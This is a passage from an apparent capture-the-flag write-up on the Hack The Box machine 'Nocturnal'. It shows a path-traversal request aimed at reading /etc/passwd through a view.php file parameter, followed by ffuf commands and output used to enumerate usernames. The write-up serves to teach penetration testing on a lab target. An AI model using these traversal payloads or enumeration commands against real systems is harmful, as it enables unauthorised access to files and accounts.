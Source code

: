 `GET /view.php?username=testtest&file=epic.doc HTTP/1.1`

`&file=epic.doc` - this look like a direct calling to a file. I think we can abuse this. Local file inclusion?

```
GET /view.php?username=testtest&file=....//....//....//etc/passwd HTTP/1.1
Host: nocturnal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://nocturnal.htb/dashboard.php
Cookie: PHPSESSID=54morik5betovda2o9300e5t6g
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```
   <div class='error'>Invalid file extension.</div>
```

It still expects a legitimate file type. Tried a few variations but it never find a file. It is looking for a specific file and won’t output anything without it.

Ok, maybe it’s more to do with the username. Can I enumerate a users via the URL?

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662602/image_pir5rk.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662607/image_vtiocv.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662609/image_m5zmm3.png)

`ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -u '[http://nocturnal.htb/view.php?username=FUZZ&file=epic.doc](http://nocturnal.htb/view.php?username=jerry&file=epic.doc) -H 'Cookie: PHPSESSID=54morik5betovda2o9300e5t6g'`

And then filter out the sizes that give back `302` responses with `fs` .

`ffuf -w /usr/share/wordlists/SecLists-master/Usernames/Names/names.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=epic.doc' -H 'Cookie: PHPSESSID=54morik5betovda2o9300e5t6g' -fs 2919`

```
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=epic.doc
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists-master/Usernames/Names/names.txt
 :: Header           : Cookie: PHPSESSID=54morik5betovda2o9300e5t6g
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2919
________________________________________________

:: Progress: [10713/10713] :: Job [1/1] :: 232 req/sec :: Duration: [0:00:54] :: Errors: 0 ::
```
